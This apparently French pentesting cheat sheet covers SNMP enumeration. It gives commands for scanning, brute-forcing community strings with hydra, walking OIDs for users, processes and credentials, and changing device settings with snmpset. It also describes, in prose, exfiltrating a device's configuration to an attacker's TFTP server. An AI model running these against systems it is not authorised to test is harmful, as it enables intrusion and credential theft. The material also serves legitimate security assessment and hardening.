

Le protocole **SNMP** (Simple Network Management Protocol) est utilisé pour surveiller et gérer les équipements réseau. Une mauvaise configuration peut permettre l'énumération d'informations sensibles, telles que les utilisateurs, les processus, la configuration réseau et des mots de passe en clair.



## Détection du service

Le protocole **SNMP** utilise les ports **161/UDP** pour les requêtes et **162/UDP** pour les **SNMP Traps**.

> [!warning] 
> Le scan UDP avec **nmap** peut être lent et imprécis selon les règles de firewall.

```bash
nmap -sU -p 161 --script=snmp-info target.com
```

Sortie attendue :
```text
161/udp open  snmp
| snmp-info:
|   System Name: ROUTER01
|   System Description: Cisco IOS Software
```

## Utilisation d'outils spécialisés

Pour une énumération plus rapide et structurée, des outils dédiés sont préférables aux commandes standards.

### onesixtyone
Idéal pour le scan rapide de listes de cibles avec des dictionnaires de communautés.
```bash
onesixtyone -c dict.txt target.com
```

### snmp-check
Permet d'extraire automatiquement une vue complète de l'équipement (OS, interfaces, processus, services).
```bash
snmp-check -t target.com -c public
```

## Test des Community Strings

Les versions **SNMPv1** et **SNMPv2c** utilisent des **Community Strings** en clair pour l'authentification.

```bash
snmpwalk -v1 -c public target.com
```

### Bruteforce
L'outil **hydra** permet d'automatiser la recherche de **Community Strings** valides.

```bash
hydra -P community_strings.txt target.com snmp
```

> [!danger] 
> L'énumération **SNMP** peut générer un volume important de logs sur le SIEM cible.

## Différence entre accès Read-Only (RO) et Read-Write (RW)

Il est crucial de distinguer le niveau de privilège accordé par la communauté :

| Accès | Description | Risque |
| :--- | :--- | :--- |
| **Read-Only (RO)** | Permet uniquement la lecture des informations (MIB). | Énumération d'informations sensibles. |
| **Read-Write (RW)** | Permet la modification des variables SNMP. | Compromission totale, modification de config, arrêt de services. |

> [!danger] 
> Si une communauté avec droits **Read-Write** est trouvée, une compromission totale de l'équipement réseau est possible.

## Techniques d'exfiltration et modification (RW)

Si un accès **RW** est confirmé, il est possible de modifier la configuration de l'équipement via `snmpset`.

### Modification d'une variable
```bash
snmpset -v2c -c private target.com 1.3.6.1.2.1.1.5.0 s "NewHostname"
```

### Exfiltration par écriture
Il est possible de forcer l'équipement à envoyer sa configuration vers un serveur TFTP contrôlé par l'attaquant (courant sur les équipements Cisco).

## Analyse des fichiers MIB

Les **MIB** (Management Information Base) définissent la structure des données. Si un équipement utilise des OID propriétaires, il faut charger les fichiers MIB correspondants pour interpréter les résultats.

```bash
snmpwalk -m +ALL -v2c -c public target.com .1.3.6.1.4.1
```
L'option `-m +ALL` charge toutes les MIB disponibles dans `/usr/share/snmp/mibs/`.

## Énumération système

L'extraction d'informations repose sur les **OID** (Object Identifiers).

> [!note] 
> La connaissance des **OID** est nécessaire pour extraire des données spécifiques non couvertes par les commandes standards.

### Informations générales
```bash
snmpwalk -v2c -c public target.com system
```

### Nom de l'hôte
```bash
snmpget -v2c -c public target.com SNMPv2-MIB::sysName.0
```

### Version de l'OS
```bash
snmpwalk -v2c -c public target.com SNMPv2-MIB::sysDescr.0
```

## Énumération réseau

### Interfaces
```bash
snmpwalk -v2c -c public target.com 1.3.6.1.2.1.2.2.1.2
```

### Adresses IP
```bash
snmpwalk -v2c -c public target.com 1.3.6.1.2.1.4.20.1.1
```

## Énumération processus

### Processus actifs
```bash
snmpwalk -v2c -c public target.com HOST-RESOURCES-MIB::hrSWRunName
```

### Applications installées
```bash
snmpwalk -v2c -c public target.com 1.3.6.1.2.1.25.6.3.1.2
```

## Énumération utilisateurs

```bash
snmpwalk -v2c -c public target.com 1.3.6.1.4.1.77.1.2.25
```

## Extraction de mots de passe

### Cisco
```bash
snmpwalk -v2c -c public target.com 1.3.6.1.4.1.9.2.1.55
```

### Windows/Linux
```bash
snmpwalk -v2c -c public target.com 1.3.6.1.2.1.25.4.2.1.2
```

## Capture de Traps

```bash
snmptrapd -f -Lo
```

## Vérification SNMPv3

**SNMPv3** introduit l'authentification et le chiffrement.

```bash
snmpwalk -v3 -u admin -l authPriv -a SHA -A password123 -x AES -X password123 target.com system
```

## Recommandations de sécurité

| Action | Commande / Configuration |
| :--- | :--- |
| Désactiver SNMPv1/v2c | `no snmp-server community public` |
| Activer SNMPv3 | `snmp-server user admin auth md5 password123 priv aes password123` |

Ces techniques s'inscrivent dans une démarche de **Network Pentesting** et de **Credential Harvesting**, souvent couplées à une analyse **Nmap Enumeration** approfondie ou à une **Cisco IOS Exploitation**.